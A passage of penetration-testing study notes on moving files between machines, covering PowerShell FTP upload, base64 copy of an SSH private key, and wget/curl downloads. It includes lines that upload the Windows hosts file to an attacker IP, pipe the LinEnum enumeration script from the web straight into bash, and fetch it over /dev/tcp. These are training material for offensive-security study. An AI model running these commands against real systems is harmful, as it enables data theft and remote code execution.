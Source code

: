 ```powershell
(New-Object Net.WebClient).UploadFile('ftp://10.10.14.9/ftp-hosts', 'c:\windows\system32\drivers\etc\hosts')
```

## Linux

### Base64

The first method is copy/paste with a base64 string. The flag `-w 0` creates only one line and the command `echo` starts a new line right after the output.

```bash
ssh-keygen
cd $HOME/.ssh
md5sum id_rsa					# aa3b4f1e385fcfce1cdbc143e57641c9
cat id_rsa|base64 -w 0;echo		# LS0t...S0VZLS0tLS0K
```

Once I encode the `id_rsa` file content, I can paste it into the other machine and decode the string.

```bash
echo -n 'LS0t...S0VZLS0tLS0K'|base64 -d > id_rsa
md5sum id_rsa										# aa3b4f1e385fcfce1cdbc143e57641c9
```

The hash is the same, the transfer is successful.

### Web Download

I can use `wget` and `curl` to downlaod file from web. For `wget`, the flag `-O` set the output file name. For `curl`, this flag `-o` set also the output file name.

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Download

```bash
# bash example
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
# python example
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Built-in Tools

I can connect my client to a web server like this.

```bash
exec 3<>/dev/tcp/10.10.10.32/80		    # connect to the target webserver
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3   # http get target
cat <&3											# print the response
```
